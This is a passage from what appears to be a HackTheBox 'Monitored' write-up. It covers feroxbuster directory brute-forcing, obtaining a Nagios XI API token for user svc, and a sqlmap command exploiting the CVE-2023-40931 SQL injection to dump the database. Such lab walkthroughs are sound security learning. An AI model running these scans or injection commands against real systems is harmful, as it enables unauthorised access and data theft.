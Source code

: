 ```bash
feroxbuster -u https://nagios.monitored.htb/ -k -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -t 100 --depth 5 -C 403,404,503,502 -o ferox_all.json
```
{: .nolineno}
![Image](Pasted%20image%2020240417145509.png)

Also going deeper and found there ⏬

```bash
feroxbuster -u https://nagios.monitored.htb/nagiosxi/api/ -k -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -t 100
```
{: .nolineno}
![Image](Pasted%20image%2020240417145726.png)


I got some directories which are now related to <mark style="background: #ABF7F7A6;">API pentesting</mark> so lets explore some more into these directories like authenticate that will provide me <mark style="background: #BBFABBA6;">api token</mark> that will help me login to that particular user, In this case the user is svc that we get from SNMP enumeration.

![Image](Pasted%20image%2020240419134542.png)
_Must be valid username and password_

Let provide the username and password ⤵️
![Image](Pasted%20image%2020240417144559.png)
_authenticating through api and getting token from it_

As I got the token for user **svc** so lets include that in as header or can be included as parameter also ⏬

![Image](Pasted%20image%2020240417144805.png)
_token for login authentication success_

Now I am logged in so lets move further ⏬

![Image](Pasted%20image%2020240417150602.png)
_Dashboard Page_

I recon related to this version of <mark style="background: #FFF3A3A6;">nagios_XI</mark> and I got this blog that stats a vulnerability for this version ⏬
https://outpost24.com/blog/nagios-xi-vulnerabilities/

![Image](Pasted%20image%2020240418100852.png)
_SQLi methodology for CVE-2023-40931_

Lets use **sqlmap** to do this attack ⏬

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Monitored]
└─$ sudo sqlmap --flush-session -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=1" --batch --cookie="nagiosxi=badl0hq9bnkpfsvg9s5f5q016f" --dump -p id --dbms=mysql --threads=10
```
{: .nolineno}
